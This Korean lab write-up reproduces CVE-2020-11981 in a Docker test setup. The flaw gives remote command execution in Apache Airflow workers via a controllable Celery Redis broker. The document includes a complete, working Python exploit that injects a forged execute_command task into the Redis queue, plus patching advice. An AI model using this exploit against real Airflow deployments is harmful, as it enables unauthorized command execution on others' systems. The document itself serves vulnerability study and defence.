 # Apache Airflow Celery Broker Remote Command Execution (CVE-2020-11981)

> 화이트햇 스쿨 3기 (20반) - [금도혁](https://github.com/24kg0ld)
> 

### 요약

- Apache Airflow는 오픈 소스 분산 작업 스케줄링 프레임워크이다.
- 1.10.10 이전 버전에서 Redis 브로커(예: Redis 또는 RabbitMQ)가 공격자에 의해 제어되면, 공격자는 워커 프로세스에서 임의의 명령을 실행할 수 있다.

### 환경 구성 및 실행

- `docker compose run airflow-init` 로 Apache Airflow의 데이터베이스를 초기화
- `docker compose up -d` 를 실행하여 테스트 환경을 실행
- `pip install redis` 로 필요한 라이브러리 설치
- 아래와 같이 `python exploit_airflow_celery.py` 작성

```c
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch', '/tmp/airflow_celery_success']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))

```

- `python3 exploit_airflow_celery.py 127.0.0.1` 로 `touch /tmp/airflow_celery_success` 실행되도록 함

### 결과

- `docker compose logs airflow-worker` 로  `touch /tmp/airflow_celery_success` 가 실행됐다는 로그 를 확인할 수 있다.

![1.png](1.png)

- `docker compose exec airflow-worker ls -l /tmp` 로 `/tmp` 에 `airflow_celery_success` 가 실제로 생성되었음을 확인할 수 있다.

![2.png](2.png)

### 정리

이 취약점은 공격자가 Redis 브로커를 악용해 Apache Airflow의 워커 프로세스에서 임의의 명령을 실행할 수 있게 만든다. 이를 통해 시스템의 권한 상승이나 악성 코드 실행이 가능해져, 실제 운영 환경에선 큰 위험이 될 수 있다. 이런 문제를 예방하려면, 브로커 서버를 안전하게 설정하고, 관련 패치가 나오면 즉시 적용하는 게 중요하다.

